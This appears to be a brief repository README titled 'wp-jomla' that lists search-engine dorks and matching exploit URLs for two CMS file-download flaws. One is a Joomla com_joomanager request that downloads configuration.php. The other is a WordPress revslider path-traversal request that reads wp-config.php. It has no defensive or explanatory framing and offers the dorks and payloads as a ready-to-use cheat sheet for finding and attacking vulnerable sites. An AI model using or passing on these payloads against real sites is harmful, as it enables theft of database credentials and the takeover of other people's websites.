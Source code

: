 # wp-jomla
Joomla

Dork: Joomla Config File Download Vulnerability: inurl:'index.php?option=com_joomanager 

Exploit: index.php?option=com_joomanager&controller=details&task=download&path=configuration.php

==================================================================================================
WordPress

Dork: WordPress Arbitrary File Download vulnerability inurl:/wp-content/plugins/revslider/

Exploit: admin-ajax.php?action=revslider_show_image&img=../wp-config.php
